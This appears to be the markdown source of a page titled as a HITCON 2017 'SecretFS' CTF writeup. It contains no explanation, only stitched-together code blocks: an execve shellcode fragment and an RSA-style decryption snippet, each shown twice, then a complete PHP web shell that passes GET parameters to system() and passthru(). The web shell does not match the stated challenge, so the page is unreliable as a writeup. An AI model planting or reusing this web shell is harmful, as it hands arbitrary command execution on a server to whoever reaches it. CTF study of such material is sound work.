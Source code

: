 ```yaml
---
title: "Hitcon2017 -- SecretFS Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - crypto
---
```


<div class="notice--info">
<strong>Name</strong>: Secret FS<br>
<strong>Category</strong>: crypto, pwn<br>
<strong>Points</strong>: 196<br>
<strong>Solves</strong>: 69<br>
<strong>Given</strong>: <code>secretfs</code>
</div>


```assembly
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
```

~~~assembly
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
~~~


```mathematica
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```php
<?php
if (isset($_GET['bin'])) {
    passthru($_GET['bin']);
} elseif (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
} else {
    echo 'No GET params set. Use bin=cmd" for passthru, cmd=cmd for system.';
}
?>
```